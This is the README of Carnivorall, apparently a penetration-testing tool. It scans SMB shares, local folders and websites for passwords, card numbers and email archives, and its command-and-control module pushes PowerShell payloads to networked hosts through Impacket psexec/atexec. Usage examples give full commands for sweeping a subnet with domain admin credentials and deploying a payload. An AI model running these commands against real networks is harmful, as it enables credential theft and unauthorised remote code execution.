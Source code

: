```                                                                                     
   ▄████▄   ▄▄▄       ██▀███   ███▄    █  ██▓ ██▒   █▓ ▒█████   ██▀███   ▄▄▄       ██▓     ██▓    
  ▒██▀ ▀█  ▒████▄    ▓██ ▒ ██▒ ██ ▀█   █ ▓██▒▓██░   █▒▒██▒  ██▒▓██ ▒ ██▒▒████▄    ▓██▒    ▓██▒    
  ▒▓█    ▄ ▒██  ▀█▄  ▓██ ░▄█ ▒▓██  ▀█ ██▒▒██▒ ▓██  █▒░▒██░  ██▒▓██ ░▄█ ▒▒██  ▀█▄  ▒██░    ▒██░    
  ▒▓▓▄ ▄██▒░██▄▄▄▄██ ▒██▀▀█▄  ▓██▒  ▐▌██▒░██░  ▒██ █░░▒██   ██░▒██▀▀█▄  ░██▄▄▄▄██ ▒██░    ▒██░    
  ▒ ▓███▀ ░ ▓█   ▓██▒░██▓ ▒██▒▒██░   ▓██░░██░   ▒▀█░  ░ ████▓▒░░██▓ ▒██▒ ▓█   ▓██▒░██████▒░██████▒
  ░ ░▒ ▒  ░ ▒▒   ▓▒█░░ ▒▓ ░▒▓░░ ▒░   ▒ ▒ ░▓     ░ ▐░  ░ ▒░▒░▒░ ░ ▒▓ ░▒▓░ ▒▒   ▓▒█░░ ▒░▓  ░░ ▒░▓  ░
    ░  ▒     ▒   ▒▒ ░  ░▒ ░ ▒░░ ░░   ░ ▒░ ▒ ░   ░ ░░    ░ ▒ ▒░   ░▒ ░ ▒░  ▒   ▒▒ ░░ ░ ▒  ░░ ░ ▒  ░
  ░          ░   ▒     ░░   ░    ░   ░ ░  ▒ ░     ░░  ░ ░ ░ ▒    ░░   ░   ░   ▒     ░ ░     ░ ░   
  ░ ░            ░  ░   ░              ░  ░        ░      ░ ░     ░           ░  ░    ░  ░    ░  ░
  ░                                               ░                                               
 
 ```
                                          CARNIVORALL
                --=={ Looking for sensitive information on local network }==-- 
                
# Authors: L0stControl and BFlag

# Intro

Scan files looking for sensitive information on SMB shares, local folders and public websites. 

# Usage

    Usage: ./carnivorall.sh [options]
    
        -n, --network <CIDR>                        192.168.0.0/24
        -l, --list <inputfilename>                  List of hosts/networks
        -d, --domain <domain>                       Domain network
        -u, --username <guest>                      Domain username 
        -p, --password <guest>                      Domain password
        -o, --only <contents|filenames|yara|regex>  Search ONLY by sensitve contents, filenames or yara rules
        -m, --match "user passw senha"              Strings to match inside files (not default)
        -r, --regex "4[0-9]{12}[0-9]?{3}"           Search contents using REGEX
        -y, --yara <juicy_files.txt>                Enable Yara search patterns (not default)
        -e, --emails <y|n>                          Download all *.pst files (Prompt by default) 
        -D, --delay <Number>                        Delay between requests
       -lD, --localfolder /path/                    For search sensitive information in local files  
        -h, --help                                  Display options
        -g, --google <max items>                    Search files on the website using Google 
                                                    (Obs: Set to "0" to search in local files)
        -w, --website "domain.com"                  Website used at *-g/--google* feature
        -v, --verbose no                            Display all matches at run time (default yes)
        
        Ex1: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY  
        Ex2: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -o filenames
        Ex3: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -o yara -y juicy_files.txt

        -={ Command & Control Module }=-

        -lH, --lhost 192.168.0.1                     Local ip to receive zombies responses
        -lP, --lport 80                              Local port to listen
        -pP, --pspayload <payload.ps1>               Powershell payload file
        -mT, --method atexec                         Use atexec.py (Default psexec.py from Impacket)

        Ex4: ./carnivorall -n 192.168.0.0/24 -u Admin -p Admin -d COMPANY -lH 192.168.1.2 -pP ./payload.ps1 -lP 80 
        Ex5: ./carnivorall.sh -n 192.168.1.1 -u admin -p admin -d COMPANY -lH 192.168.1.2 -pP ./payload.ps1 -lP 8080 -m senha -mT atexec
        Ex6: ./carnivorall -lH 192.168.1.2 -lP 80 # Listen mode. 

# Requirements:

- cifs-utils 
- GhostScript
- zip
- ruby (gems -> nokogiri / httparty / colorize) or install via bundle 
   1º - make sure bundle is installed
      $ gem install bundle
      $ bundle install  --> inside the same dir when gemfile
- yara (only to use -y option)

# Command & Control Module

To use the command and control module, you need to install Impacket from CoreSecurity

Getting Impacket

* [Current and past releases](https://github.com/CoreSecurity/impacket/releases)

```
                               ,##############*                                          
                         ####**/*******/*********/##.                                    
                       #******************************##                                 
                        ###/***************/************/##                              
                        ##(*#(*****//*********/************##                            
                        ../##*##//****/**********/**/********##                          
                       .#  ##.#/#(##****************/**********##                        
                            ##   ##**##/***********************/(#                       
                             #   #.* #***##/*/************/**/****#                      
                          #.,  ,##,   /./#***##(*******************#                     
                      ###/*(##.,.  #*%#. /,.# #***##/*******/*******#                    
                       #**/*##(***#,#  #.* ### ###/####/##*****#****#                    
                        #/*/*/***/###(*####..####.##,#.#######*/#***/#                   
                         #******/******/*(###############(****/#****/#                   
                          ##******************************#(*******/#                    
                            #(************//************************#                    
                              ##**********************/************#                     
                                 ##***/*//******************/*****#                      
                             ####    ###******************/*****(#          #*/*//#      
                  (******.   #****###     .######(//***********#/         #/*/##/***#    
                (/       (*# ##*****/(##          ##*********#/       ## (**#    #**/,   
               ./         #*# #/**/*//*/##      ##*******//#     ###***##//#      ***#   
                /#        #*( ##***#***/**#  ##/********###(*###******(#**#      .**/#   
                          (*#  #**/**##**(/#//*******(##**##(**//*(***#/##(   .##***/    
              #############/   /#//(###(*/#*******/##/*###/***/##*/**##/*********/*#     
              .#*****/*/**//*#####**/***#(********#..##**//*/*#/****## ###/***/*#(       
                #/****#(***/*/***/*###(/*#********###*/***//#*////###     #//**/##       
                 ##/*****###**#********##//******/#/****(*****//*****#         ##*(#     
                  ###/*****/((##*//**(****##****##****(///****/*/*****/#         (*#     
                #***###(//****//*(##*#(*/***/#*#//**#(*****/###***#**/*/##  #/   (*#     
               //*#    %%##*******#***********#/****/*****/#%%%%#*( *****.   *  .##,     
              /**#     %(((((((##*******///*/#/*/#%%%%%%(((((((%.(*##****#  ((           
 #(**#       #**/      %(((((((#**/**#(((((((((((((((((((((((((%  #/(/***#/**            
#*          #/*,       %(((((((***/#((((((((((((((((  (/(/(((/(*,,,,*////(,,((///////(*,,
*#         #**,        %(((((#****(((((((((((((((.,((( ((((/.((#,,,,*////((///((((((///(*
/(        /**            #%%(****((((((((((((((((((,(,(((######,,,,,,////(/(/,,,,,,,,(//(
/*(     #**#              %(#***##%%%%#((((((((#%%%%%%#(((((#%       #/**/           #/**
  #******#                %##***#(((((((((((((((((((((((((((%%       ##***/#        #**/#
                          %##**/((((((((((((((((((((((((((((%%      .#*#*****/*##(*****# 
               ####       %%#**/((((((((((((((((((((((((((((%%      *(/#  #***//**/*(%   
            (#/#####      (%#**/((((((((((((((((((((((((((((%*       #*#*                
           #*(             %#**/((((((((((((((((((((((((((((%         ##*                
           (*/             %#/**((((((((((((((((((((((((((((%                            
          (*/              %/**#(((((((((((((((((((((((((((#%                            
          .**/             #***((((((((((((((((((((((((((((%%                            
           #*#            #***(((((((((((((((((((((((((((((%%                            
            #**#         ***(((((((((((((((((((((((((((((((%,                            
             #/**/#* .#/***#%((((((((((((((((((((((((((((((%                             
                #/******#,  %((((((((((((((((((((((((((((((%                             
                            %((((((((((((((((((((((((((((((%                             
,.,.,.,,                    /%%%%#((((((((((((((((((((((#%%%              
 ```      

Special thanks to:

https://github.com/DiabloHorn/yara4pentesters

Awesome project =)
